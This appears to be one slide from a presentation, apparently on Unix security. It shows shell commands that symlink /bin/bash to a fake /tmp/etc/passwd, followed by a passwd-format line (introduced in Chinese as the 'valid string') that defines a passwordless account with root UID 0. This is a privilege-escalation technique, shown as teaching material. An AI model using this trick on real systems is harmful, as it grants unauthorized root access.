

48
#
$mkdir /tmp/etc
$ln –s /bin/bash /tmp/etc/passwd
$/tmp/etc/passwd
$exit
Exit
$ls –l /tmp/etc/passwd
有效字符串为myroot::0:0:me:/root:/tmp/etc/passwd